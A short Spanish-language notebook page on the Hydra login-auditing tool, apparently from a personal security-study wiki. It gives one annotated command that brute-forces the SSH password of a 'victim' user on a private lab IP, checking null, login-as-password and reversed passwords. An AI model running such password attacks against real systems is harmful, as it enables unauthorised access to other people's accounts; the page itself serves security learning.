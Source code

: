# Hydra 
Es una herramienta de auditoría de inicio de sesión que trabaja con múltiples tareas en paralelo, soporta una gran variedad protocolos. Es muy rápido y flexible, y los nuevos módulos son fáciles de agregar. Esta herramienta permite a los investigadores y consultores de seguridad mostrar lo fácil que sería obtener acceso no autorizado a un sistema de forma remota. 

### Usos 
- Revertir el password de un usuario que tiene habilitado la conexion [[SSH]], obtiene el password del usuario.

#### Comandos
	man hydra
Muestra la opciones que nos provee la herramienta Hydra.

	hydra -l marlinspike -e nsr 192.168.1.68 ssh 
Realiza un ataque de fuerza bruta al usuario marlinspike de tipo login para obtener el password que utiliza para la conexion [[SSH].

-l marlinspike *Usuario victima que tiene permitido la conexion SSH*
-e nsr *cubre el password null, al igual que realiza reverse al password*
192.168.1.68 *IP privada de la maquina victima*
ssh *Protoloco que se utiliza para el login*

![Infografia Hydra](/Img/infografia-hydra.jpeg)

